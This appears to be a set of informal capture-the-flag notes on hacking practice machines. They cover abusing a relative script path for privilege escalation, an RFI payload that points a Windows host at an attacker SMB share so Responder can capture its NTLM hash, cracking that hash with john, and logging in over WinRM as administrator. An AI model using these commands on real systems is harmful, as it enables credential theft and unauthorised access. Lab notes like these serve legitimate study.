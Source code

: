 1. From machine `Busqueda`. Look for version vulnerability, Space is denoded by "%2b", Look at git configs they might have configs, in python code, the code ran "./full-checkup.sh" while taking "full-checkup", so i could git clone in seperate directory, change full-checkup.sh and ran my own code.

2. When there is rfi, we could ask the vulnerable windows machine to get smb share file, and then catch NTLM hash and crack it.
3. `sudo python Responder.py -I tun0`
4. example `?page=//10.10.14.22/somefile`
5. After u get the hash `username:...`, copy entiner stuff in file, and crack `john -w=/usr/share/wordlists/rockyou.txt hash.txt` 
6. connect to windows remote management `vil-winrm -i 10.129.101.119 -u administrator -p badminton`
